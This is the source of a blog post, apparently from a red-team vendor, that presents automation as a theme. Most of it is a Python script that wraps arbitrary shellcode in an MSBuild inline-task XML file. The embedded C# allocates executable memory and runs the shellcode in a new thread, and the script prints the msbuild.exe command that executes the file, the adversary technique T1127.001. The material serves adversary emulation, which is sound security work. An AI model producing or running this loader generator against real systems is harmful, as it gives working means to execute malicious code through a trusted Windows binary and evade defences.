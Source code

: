 ```yaml
---
layout: post
title:  "Automation for Consistency and Scale"
date:   2022-02-18 10:18:23 +0700
categories: [security]
---
```

Automation is a great way to test reliability in what you are doing, and to help ensure that your process is repeatable.

## Why automate?
There are a lot of reasons to automate, however three reasons that often prompt me to look at automating my solutions are the following:
+	<em>Repeatability</em> - Being able to repeat the process is important for any task that I need someone else to replicate 
+	<em>Reliability</em> - Being able to have a repeatable process increases the chance I find any errors and allows consistency with deployment
+	<em>Building complexity</em> - With complex tasks that involve multiple pieces working together, it can be difficult to understand how a small change in one place impacts the overall repeatability or reliability of the entire chain. With automation, the impact of small changes can be better understood.

## Example
Part of automating is building tools to help your workflow through increased consistency and potentially also when troubleshooting!

One of the newest SCYTHE features is easier shellcode availability for customers. I wanted to build some examples of using this new feature for customers to leverage that may not already be familiar with shellcode. There is a ton of great blogs on leveraging shellcode from tools like Metasploit, including the ired.team blog [here](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c).

That blog highlights using the MSBuild [MITRE ATT&CK Sub-Technique T1127.001](https://attack.mitre.org/techniques/T1127/001/) leveraged by adversaries to execute code. After walking through that blog post, I wanted to automate that process so I wrote a script to do part of the job for me.

I found that there were a few items that changed for me between executions that automating helped me troubleshoot faster:
+ <em>Escape characters</em> - This is a writing out characters with Python issue, but making sure to add an extra '\\' to escape certain characters is necessary
+ <em>32 vs 64 bit shellcode</em> - This is a major difference that not only requires changes to the XML document generated, but also leverages another 64 bit loader for execution afterward
+ <em>Python vs PowerShell for base64 encoding</em> - Some of the possible ways to output base64 encoded characters in Python do not work for decoding and executing in PowerShell, so making sure these encodings match up is important!

{% highlight python %}
# MSBuild Item Generator
# Credit to https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c for the idea
import sys, base64

Generic_msbuild32_string1 = """
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt32 MEM_COMMIT = 0x1000;
                private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
                [DllImport("kernel32")]
                private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
                [DllImport("kernel32")]
                private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
                public override bool Execute()
                {
			"""

Generic_msbuild32_string2 = """
		      byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt32 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
"""

Generic_msbuild64_string1 = """
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt64 MEM_COMMIT = 0x1000;
                private static UInt64 PAGE_EXECUTE_READWRITE = 0x40;
                [DllImport("kernel32")]
                private static extern UInt64 VirtualAlloc(UInt64 lpStartAddr, UInt64 size, UInt64 flAllocationType, UInt64 flProtect);
                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt64 lpThreadAttributes, UInt64 dwStackSize, UInt64 lpStartAddress, IntPtr param, UInt64 dwCreationFlags, ref UInt64 lpThreadId);
                [DllImport("kernel32")]
                private static extern UInt64 WaitForSingleObject(IntPtr hHandle, UInt64 dwMilliseconds);
                public override bool Execute()
                {
			"""

Generic_msbuild64_string2 = """
		      byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt64 funcAddr = VirtualAlloc(0, (UInt64)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt64 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
"""

scythe_shellcode_bin = sys.argv[1]
isit_32_or_64_shellcode = sys.argv[2]

with open(scythe_shellcode_bin, "rb") as f:
    encoded_string = base64.b64encode(f.read())
    base64_message = encoded_string.decode('UTF-8')
shellcode_string = 'string b64 = "' + base64_message +'";'

if isit_32_or_64_shellcode == '32':
    with open('bad-32.xml', 'w') as msbuild:
        msbuild.write(Generic_msbuild32_string1)
        msbuild.write(shellcode_string)
        msbuild.write(Generic_msbuild32_string2)
        print("To execute, run the following in PowerShell - C:\Windows\Microsoft.NET\Framework\\v4.0.30319\MSBuild.exe .\\bad-32.xml")
elif isit_32_or_64_shellcode == '64':
    with open('bad-64.xml', 'w') as msbuild:
        msbuild.write(Generic_msbuild64_string1)
        msbuild.write(shellcode_string)
        msbuild.write(Generic_msbuild64_string2)
        print("To execute, run the following in PowerShell - C:\Windows\Microsoft.NET\Framework64\\v4.0.30319\MSBuild.exe .\\bad-64.xml")
else:
    print("Must specify shellcode as 32 or 64 after the file name")
print("Done.")
{% endhighlight %}

[jekyll-gh]: https://github.com/mojombo/jekyll
[jekyll]:    http://jekyllrb.com
